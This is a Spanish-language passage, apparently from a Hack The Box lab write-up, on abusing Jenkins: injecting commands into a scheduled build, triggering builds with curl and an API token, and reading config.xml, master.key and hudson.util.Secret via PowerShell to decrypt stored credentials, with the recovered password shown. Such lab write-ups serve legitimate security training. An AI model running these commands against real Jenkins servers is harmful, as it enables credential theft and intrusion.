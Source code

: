 # Jenkins

## Inyectar comando al construir proyecto

![image](https://rubbxalc.github.io/writeups/assets/img/Object-htb/4.png)

Es necesario agregar una tarea para que se ejecute cada cierto tiempo (En este caso, cada minuto)

![image](https://rubbxalc.github.io/writeups/assets/img/Object-htb/5.png)

Una vez se ha compilado, se puede ver el output del comando que he indicado

![image](https://rubbxalc.github.io/writeups/assets/img/Object-htb/6.png)

En caso de no querer esperar a que se ejecute la tarea, existe una alternativa. Creo un token desde los ajustes de la cuenta a la que previamente tenía acceso

![image](https://rubbxalc.github.io/writeups/assets/img/Object-htb/8.png)

Con ```curl``` construyo el proyecto

```null
curl -s -X GET 'http://rubbx:11a8956263bda19798dacf5911460d759c@10.10.11.132:8080/job/Testing/build?token=rubbx
```

## Obtener credenciales

En caso de poder ejecutar comandos, es necesario traer tres archivos, el ```config.xml```, ```master.key``` y ```hudson.util.Secret```

```null
cmd /c powershell -c type ..\..\users\admin_17207690984073220035\config.xml
```

```null
cmd /c powershell -c type ..\..\secrets\master.key
```

El último al ser un binario hay que traerlo en base64 para posteriormente hacer un decode

```null
cmd /c powershell -c [convert]::ToBase64String((Get-Content -path "..\..\secrets\hudson.util.Secret" -Encoding byte))
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>cmd /c powershell -c [convert]::ToBase64String((Get-Content -path "..\..\secrets\hudson.util.Secret" -Encoding byte))
```

La herramienta necesaria se encuentra en [Github](https://github.com/hoto/jenkins-credentials-decryptor)

```null
./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml
[
  {
    "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
    "password": "c1cdfun_d2434\u0003\u0003\u0003",
    "username": "oliver"
  }
]
```


